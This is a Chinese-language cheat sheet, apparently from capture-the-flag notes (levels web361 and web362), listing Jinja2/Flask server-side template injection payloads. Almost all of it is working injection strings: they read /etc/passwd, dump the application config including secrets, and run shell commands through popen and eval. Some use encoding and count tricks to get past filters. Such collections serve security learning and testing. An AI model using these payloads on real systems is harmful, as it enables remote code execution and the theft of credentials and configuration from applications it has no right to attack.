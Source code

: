 #### request

jinja2中存在对象request

`{{request.__init__.__globals__['__builtins__'].open('/etc/passwd').read()}}`
`{{request.application.__globals__['__builtins__'].open('/etc/passwd').read()}}`

#### url_for

`{{url_for.__globals__['current_app'].config}}`
`{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}`

#### get_flashed_messages

`{{get_flashed_messages.__globals__['current_app'].config}}`
`{{get_flashed_messages.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}`

#### lipsum

`lipsum`是一个方法，可以直接调用os方法，也可以使用`__buildins__`：

```py
{{lipsum.__globals__['os'].popen('whoami').read()}}
{{lipsum.__globals__.os.popen('whoami').read()}}
{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
```

#### os._wrap_close

web361

`?name={{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}`

#### __builtins__

web362

- 多个1相加`/?name={{().__class__.__mro__[1].__subclasses__()[1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1%2b1].__init__.__globals__["popen"]("cat /flag").read()}}`

- 利用`(dict(a=b,c=d)|join|count)`构造出2，然后`66*2=132`即可

```py
/?name={% set e=(dict(b=c,c=d)|join|count)%}{{().__class__.__mro__[1].__subclasses__()[e*66].__init__.__globals__["popen"]("cat /flag").read()}}

# 也可以用([a,b]|count)构造出2
/?name={% set e=([a,b]|count)%}{{().__class__.__mro__[1].__subclasses__()[e*66].__init__.__globals__["popen"]("cat /flag").read()}}
```
